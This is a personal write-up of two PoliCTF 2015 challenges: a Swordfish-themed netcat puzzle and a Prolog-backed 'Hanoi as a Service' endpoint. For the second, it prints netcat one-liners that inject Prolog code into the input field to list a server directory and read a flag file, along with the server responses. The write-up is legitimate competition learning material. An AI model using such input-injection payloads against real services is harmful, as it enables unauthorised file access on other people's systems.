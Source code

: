 ```yaml
---
layout: post
title: "Poli CTF 2015"
published: false
---
```


#Poli CTF 2015

PoliCTF is a 48 hour, jeopardy style capture-the-flag competition that will be held both online and open to all competitors and live for a restricted number of participants. The competition will start during the second day of the DIMVA 2015 conference that will be held in Milan (Italy). This is the first time I have competed in this CTF. Thank you to the team who put these challenges together!

Of the challenges listed, What did I manage to achieve?

What challenges was I planning to focus on and what would I like to try my hand at in the future?
- Overall enjoyment & learning from this CTF?
- 


http://polictf.it/


##Challenge Writeups


###GrabBag

####Hard Interview - 50 Points

This challenge was a great lesson in learning about not overthinking easy challenges!

So we start off with this:
>**interview.polictf.it:80**

Visit the address through your browser, and you'll receive a page that only displays the following text:
```
         ____                                     __                              __      
        /\  _`\                                  /\ \__                          /\ \__   
        \ \ \/\ \     __   _____      __     _ __\ \ ,_\   ___ ___      __    ___\ \ ,_\  
         \ \ \ \ \  /'__`\/\ '__`\  /'__`\  /\`'__\ \ \/ /' __` __`\  /'__`\/' _ `\ \ \/  
          \ \ \_\ \/\  __/\ \ \L\ \/\ \L\.\_\ \ \/ \ \ \_/\ \/\ \/\ \/\  __//\ \/\ \ \ \_ 
           \ \____/\ \____\\ \ ,__/\ \__/.\_\\ \_\  \ \__\ \_\ \_\ \_\ \____\ \_\ \_\ \__\
            \/___/  \/____/ \ \ \/  \/__/\/_/ \/_/   \/__/\/_/\/_/\/_/\/____/\/_/\/_/\/__/
                             \ \_\                                                        
                              \/_/                                                        
                     ___      ____               ___                                
                   /'___\    /\  _`\           /'___\                               
              ___ /\ \__/    \ \ \/\ \     __ /\ \__/   __    ___     ____     __   
             / __`\ \ ,__\    \ \ \ \ \  /'__`\ \ ,__\/'__`\/' _ `\  /',__\  /'__`\ 
            /\ \L\ \ \ \_/     \ \ \_\ \/\  __/\ \ \_/\  __//\ \/\ \/\__, `\/\  __/ 
            \ \____/\ \_\       \ \____/\ \____\\ \_\\ \____\ \_\ \_\/\____/\ \____\
             \/___/  \/_/        \/___/  \/____/ \/_/ \/____/\/_/\/_/\/___/  \/____/
                                                                            
                                                                            
____ ____ ____ ___ ____ _ ____ ___ ____ ___     ____ ____ ____ ____ ____ ____    ____ _  _ _    _   _ 
|__/ |___ [__   |  |__/ | |     |  |___ |  \    |__| |    |    |___ [__  [__     |  | |\ | |     \_/  
|  \ |___ ___]  |  |  \ | |___  |  |___ |__/    |  | |___ |___ |___ ___] ___]    |__| | \| |___   |   


fish@sword:~$  GET: command not found
fish@sword:~$  Host:: command not found
fish@sword:~$  Connection:: command not found
fish@sword:~$  Accept:: command not found
fish@sword:~$  User-Agent:: command not found
fish@sword:~$  Accept-Encoding:: command not found
fish@sword:~$  Accept-Language:: command not found
fish@sword:~$  
: command not found
fish@sword:~$ 
```
The browser's HTTP request being entered as commands is a fairly good indication that we need something more appropriate to access this system. [Netcat](https://en.wikipedia.org/wiki/Netcat)would handle connecting to port 80.
```
nc interview.polictf.it 80
```
Attempting any of the traditional bash commands will result in "command not found". 

```
fish@sword:~$ ls
 ls: command not found
```
After a slew of failed commands, the solution was much more simple - typing in "help" was surprisingly helpful!
```
fish@sword:~$ help
 A very hard interview: Codename Blow...Fish
Maybe you can help me with something...
DOD d-base, 128 bit encryption...What do you think?
Maybe slide in a Trojan hose hiding a worm...
I have been told that best "crackers" in the world can do it in 60 minutes, unfortunately I need someone who can do it in 60 seconds... naturally with the right incentives ;)
If you know what I mean, tell me how a real cracker accesses to a remote super protected server...

Possible commands:
hacker: Write code as a real hacker
help: Give information about the program
hint: Gives a little hint
exit: Loser...bye bye
ssh: A tiny ssh command
date: A very useful and innovative feature
```
The hacker command will literally print out "hacker" code to the screen [as if it was being typed by you](http://hackertyper.net/)! And the date command simply prints a date. Hint provides you with:
```
useage:  ssh username@address
address: a not so easily reachable IP address
Very simple...isn't it?
```
If you haven't picked it up already, this challenge is based around the interview scene in the movie [Swordfish](https://en.wikipedia.org/wiki/Swordfish_(film). I brought up a video of the [interview scene](https://www.youtube.com/watch?v=zfy5dFhw3ik) on YouTube and watched it. After alot of pausing and squinting, I realised that there is an IP address that looks fairly out of place, and a frame that stood out to me.
```
fish@sword:~$ ssh admin@312.5.125.233
 flag{H4ll3_B3rry's_t0pl3ss_sc3n3_w4s_4ls0_n0t4bl3}
```
Success!
---

###Pwnable

####Hanoi as a Service - 50 Points

I really enjoyed this challenge as I learned alot from it. It was also the first time that I have encounted the programming language [Prolog](https://en.wikipedia.org/wiki/Prolog) as well techniques on how to approach these types of challenges.

>HANOI AS A SERVICE
>50 Points
>Check out our shiny new HaaS platform!
>nc haas.polictf.it 80

 When you netcat into the service you recieve the following message:
 
``` 
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
```
Lets enter the number 3.
```
3
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
* Move top disk from a to b
```
This would be a nifty service if we were looking to play [Tower of Hanoi](https://en.wikipedia.org/wiki/Tower_of_Hanoi), however we want to see how we can attack this service to find the flag.

Lets try some unexpected input, I entered the letter "w", which returned:
```
ERROR: Prolog initialisation failed:
ERROR: </2 Arithmetic: 'w/0' is not a function
```
Interesting! [Prolog](https://en.wikipedia.org/wiki/Prolog) is a general purpose logic programming language, a quick google search reveals a [handy list of commands](http://www.swi-prolog.org/pldoc/man?section=builtin) to try. Some of the unsuccessful approaches I tried were:
- Attempting to overflow the process by providing it with large input, however the code we dumped later showed that it had been coded to avoid processing input larger than 15 characters long.
- Certain commands, such as 'shell()' were rejected with a one of three random messages, such as "Nope.", "What are you trying to do!?!" and "Sorry thats not implemented!".

After some failed commands revealed the directory structure, this allowed me to focus my efforts on reaching the folders above, as it would likely be where the flag was hidden.
```
root@kali:~# nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
2), debug 2 ?- trace
ERROR: Prolog initialisation failed:
ERROR: Syntax error: Operator expected
ERROR: hanoi(2), debug 
ERROR: ** here **
ERROR: 2 ?- trace) . 
Exception in thread Thread-1 (most likely raised during interpreter shutdown):
Traceback (most recent call last):
  File "/usr/lib/python2.7/threading.py", line 810, in __bootstrap_inner
  File "/usr/lib/python2.7/threading.py", line 763, in run
  File "/home/ctf/haas/haas-proxy.py", line 36, in listen
  File "/usr/lib/python2.7/subprocess.py", line 796, in communicate
  File "/usr/lib/python2.7/subprocess.py", line 1376, in wait
  File "/usr/lib/python2.7/subprocess.py", line 476, in _eintr_retry_call
<type 'exceptions.OSError'>: [Errno 10] No child processes
```
The 'working_directory' command seemed like the best command to try here...
```
echo '2), working_directory(CWD, "/home/ctf/haas/"), ls %'|nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
* Move top disk from a to c
* Move top disk from a to b
* Move top disk from c to b
haas			haas-proxy.py			jhknsjdfhef_flag_here
```
This is fantastic - the flag is sitting right there in that folder! After much reading and trial and error, the final command was crafted:
```
echo '2), open("/home/ctf/haas/jhknsjdfhef_flag_here", read, Stream), read_line_to_codes(Stream,Codes), write(Codes) %'|nc haas.polictf.it 80
Welcome to the Hanoi-as-a-Service cloud platform!
How many disks does your tower have?
* Move top disk from a to c
* Move top disk from a to b
* Move top disk from c to b
ERROR: Prolog initialisation failed:
ERROR: open/3: source_sink '[47,104,111,109,101,47,99,116,102,47,104,97,97,115,47,106,104,107,110,115,106,100,114,104,101,102,95,102,108,97,103,95,104,101,114,101]' does not exist (No such file or directory)
```
After converting the flag from decimal to ascii the flag was revealed!
```
flag{Pr0gramm1ng_in_l0g1c_1s_c00l}
```



---
